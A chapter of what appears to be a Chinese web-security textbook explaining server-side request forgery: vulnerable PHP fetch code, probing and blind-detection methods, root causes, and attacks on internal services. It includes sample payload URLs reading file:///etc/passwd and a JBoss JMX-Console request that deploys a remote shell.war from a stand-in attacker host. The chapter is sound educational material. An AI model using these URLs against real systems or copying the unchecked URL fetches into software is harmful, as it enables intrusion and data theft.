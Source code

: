 # 第十二章
# 服务端请求伪造(SSRF)
## SSRF攻击简介
如果web应用会将外部输入的参数作为URL，然后访问这个URL，那么攻击者就可以构造特定的参数值，让服务端访问指定的URL，该访问行为是服务器预期之外的，这种攻击叫SSRF攻击，web应用中的该漏洞称为SSRF漏洞。这里输入的参数值不一定是完整的URL，也可以是域名、IP地址、端口值等。
如，有些提供翻译服务的网站允许用户提交一个网页的URL，然后对整个网页进行翻译，再返回翻译后的结果：
```
<?php
$content = file_get_contents($_GET['url]);
echo translate($content);
?>
```
由于服务端的翻译引擎必须访问网页的URL获取原始内容，如果攻击者构造特定的URL，就可以让服务端作为代理去访问它，并获得访问结果。
类似的场景还有很多，比如：web应用需要调用不同的外部接口，让客户端提交接口的地址；在一些允许用户提交一个图片URL作为头像的应用中，web应用需要拉取这个图片并裁剪，这些场景中都可能产生SSRF漏洞。
web应用一般都有自己的内网环境，它与外网是隔离的，攻击者无法直接访问内网服务，但是通过web应用的SSRF漏洞，攻击者可以访问内网服务或者对内网应用发起攻击，这是最常见的SSRF攻击方式。如：
`/translate.php?url=http://192.168.1.100:8080/`
此攻击和远程文件包含有点像，只不过远程文件包含指的是服务端应用加载和执行远程脚本，实际上远程文件包含漏洞也是SSRF漏洞。此外，存在SSRF漏洞的应用如果使用file://协议攻击者也能读取服务器上的本地文件，从而导致敏感信息泄漏，比如：
`translate.php?url=file:///etc/passwd`
在PHP中除了file_get_contents()函数，其他的网络库也能产生SSRF漏洞，如fsockopen()和cURL库。下面是一个使用cURL库的例子：  
```
<?php
$curl = curl_init();
curl_setopt($curl,CURLOPT_URL,$_GET['url']);
$content = curl_exec($curl);
curl_close($curl);
echo translate($content);
?>
```
cURL库支持更多的协议类型，利用它可以实现更复杂的SSRF攻击。
在这种访问会返回URL页面的场景下，我们可以尝试构造特定的URL参数来探测Web应用是否存在SSRF漏洞。比如，对于常见的参数像url、src、link等参数，我们设置其值为"https://www.baidu.com"，如果返回的内容中含有百度首页源码特征，就说明存在SSRF漏洞。有些场景中，web应用并不会返回访问URL的内容哦。这种情况下，我们需要使用自己搭建的服务器作为目标的URL，通过查看服务器访问日志或通过使用DNS服务器日志的方式(与SQL盲注中的带外数据一样)，来判定或探测是否存在SSRF漏洞，称为"SSRF盲打"。互联网上有现成的DNSlog平台可以使用。
通常，开发人员将应用放在内网是比较安全的，所以很多内网应用没有安全防护措施，比如缺少认证授权，或者使用了版本很低的带有漏洞的中间件。其实，攻击者通过SSRF漏洞就能够绕过边界防护，从外网利用带有SSRF漏洞的应用，以此作为跳板攻击内网应用。
## SSRF漏洞成因
web应用中除了显式地外部输入URL，还有很多中原因可能产生SSRF漏洞。常见的SSRF漏洞成因有以下几种：
1、web应用使用网络库获取外部资源或调用外部接口
2、问价解析库产生网络请求。如，解析存在外部实体(XXE)的XML文件，将会发起网络请求，部分Office文档库在解析时也会发起网络请求。
3、应用程序允许通过外部参数指定配置，如通过外部参数传入数据库连接地址、通过外部输入参数来指定LDAP参数。
4、使用了无头浏览器(Headless Browser)。比如，Phantomjs和Selenium经常被用于渲染网页，然后检测或抓取网页的内容，用它们可以加载指定的URL，或者在网页中嵌入指定的URL资源，如果没有相应的参数过滤或者网络隔离措施，则可能产生SSRF漏洞。在爬虫场景中比较常见，攻击者可以构造恶意的网页，当其被爬取渲染后，就能实现SSRF攻击。
5、应用程序的后端在执行安全检测时发起了网络访问。如果即时通信软件或邮件系统提供了网址安全检测的功能，用于防止用户发送链接中包含钓鱼页面，违法内容等，服务端的内容检测引擎就会访问用户发送的URL以进行安全检测，在这个场景中也会发生SSRF攻击。
## SSRF攻击进阶
攻击者通过巧妙地构造数据，还能攻击其他类型的应用
### 攻击内网应用
大部分场景下，存在SSRF漏洞的应用只可以使用HTTP/HTTPS协议发起请求，而且通常限制了请求的方法。但是，攻击者仅利用这一点就能攻击很多带有漏洞的内网应用。例如，Structs2有多个远程代码执行漏洞只需要一个GET请求就能实现。而且很多中间件的管理控制台在内网是开放的，甚至无密码登录。例如JBoss的JMX-Console通常不会对外网开放，并且未授权就能访问，如果构造如下URL实施SSRF攻击就能让服务器部署一个远程的恶意应用：
```
http://localhost:8080/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://evil.site/shell.war
```
类似的提供HTTP接口的服务非常多，比如MongoDB、Docker、ElasticSearch、Jenkins、Tomcat等它们都可能存在未授权访问，可导致敏感数据泄漏或者远程代码执行。比如，可以通过HTTP接口访问CurDB中的数据，通过如下URL就能访问用户列表的所有数据：
`http://localhost:5984/_users/_all_docs`